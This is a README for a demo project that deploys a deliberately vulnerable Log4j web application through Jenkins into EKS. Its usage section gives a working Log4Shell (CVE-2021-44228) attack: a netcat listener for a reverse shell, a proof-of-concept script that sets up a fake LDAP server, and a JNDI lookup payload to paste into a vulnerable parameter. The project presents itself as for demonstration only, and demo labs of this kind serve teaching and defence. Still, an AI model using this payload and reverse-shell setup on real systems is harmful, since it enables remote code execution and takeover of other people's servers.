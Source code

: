 # cicd-log4j
Building and deploying an exploitable web containerized application with Log4j on Jenkins into EKS.

For PoC/demo purpose only

<img width="901" alt="image" src="https://github.com/user-attachments/assets/a05f6889-852d-41e4-a40a-222002928c2c" />

Based on https://github.com/kozmer/log4j-shell-poc

#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>
